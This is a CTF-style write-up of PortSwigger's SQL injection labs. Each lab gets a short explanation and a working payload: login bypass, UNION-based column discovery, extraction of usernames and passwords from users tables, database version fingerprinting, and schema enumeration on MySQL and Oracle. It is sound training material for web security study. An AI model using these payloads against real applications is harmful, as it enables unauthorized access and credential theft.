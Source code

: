 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/logo.png
date: 2023-01-28 09:45:47 +07:00
modified: 2023-01-28 09:45:47 +07:00
categories: CTF
machine_author:
  link: https://portswigger.net/web-security/
  name: Portswigger
tags: [Portswigger, SQLi , Writeup]
title: SQLi (UNION) Lab  - Portswigger 
---
```


![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/logo.png)

First 10 Labs of SQLi Lab based on UNION attack.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

By making the statement true we can get all the categories.

Payload → `'OR 1=1-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/1.png)


## SQL injection vulnerability allowing login bypass

In the login page after typing the username we can just comment the rest of the statement. Which will make the password parameter a comment.

Payload → `administrator'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/2.png)


## SQL injection UNION attack, determining the number of columns returned by the query

First we have to find how many columns are there. We can use the [ORDER BY]() keyword. Lets increase the payload number by 1 until we get an error.

Payload → `'ORDER BY 3--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/3.png)

When we reach 4 we get a error.

Payload → `'ORDER BY 4--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/4.png)

Now we know that there are 3 columns. Lets use UNION to get all the columns.

Payload → `' UNION SELECT NULL,NULL,NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/5.png)


## SQL injection UNION attack, finding a column containing text

Now that we know which table has 3 columns, we have to find the column that is injectable. In this case, 2nd column was injectable.

Payload → `' UNION SELECT NULL,'ap8kCb',NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/6.png)


## SQL injection UNION attack, retrieving data from other tables

We go back to find the number of the column. In this case, we get an error at 3. So, the number of the column is 2.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/7.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/8.png)

Next, we get the username and password from the user's table using UNION.

Payload → `' UNION SELECT username,password FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/9.png)

We get the admin name and password. After we log in, the lab is solved.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/10.png)


## SQL injection UNION attack, retrieving multiple values in a single column

We can use the CONCAT keyword to get information in one column.

Payload → `' UNION SELECT NULL,CONCAT(username,' ',password) FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/11.png)



## SQL injection attack, querying the database type and version on Oracle

For Oracle database we can get [banner]() from [v$version]() table to get version information.

Payload → `' UNION SELECT banner,NULL FROM v$version--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/12.png)



## SQL injection attack, querying the database type and version on MySQL and Microsoft

To get MySQL or Microsoft database version we can use [@@version]() keyword.

Payload → `' UNION SELECT @@version,NULL-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/13.png)

## SQL injection attack, listing the database contents on non-Oracle databases

First we have to find the table_name from [information_schema.tables]()


Payload → `' UNION SELECT table_name,NULL FROM information_schema.tables--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/14.png)

We found the table of the user. Next, we are going to get the column names from the table.

Payload → `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_neqdue'--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/15.png)

After getting the column names we can print out the data and after logging in with the administrator we solve the lab.

Payload → `' UNION SELECT username_skjbtp,password_ajvmno FROM users_neqdue--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/16.png)


## SQL injection attack, listing the database contents on Oracle

Lets get the table name first.

Payload → `' UNION SELECT table_name,NULL FROM all_tables-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/17.png)

Now that we have the table name lets get the column names from that table.

Payload → `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ETYIRN'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/18.png)

Now lets get Admin username and password from the columns.

Payload → `' UNION SELECT USERNAME_EPLQOW,PASSWORD_ZXLHQB FROM USERS_ETYIRN-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/19.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/20.png)


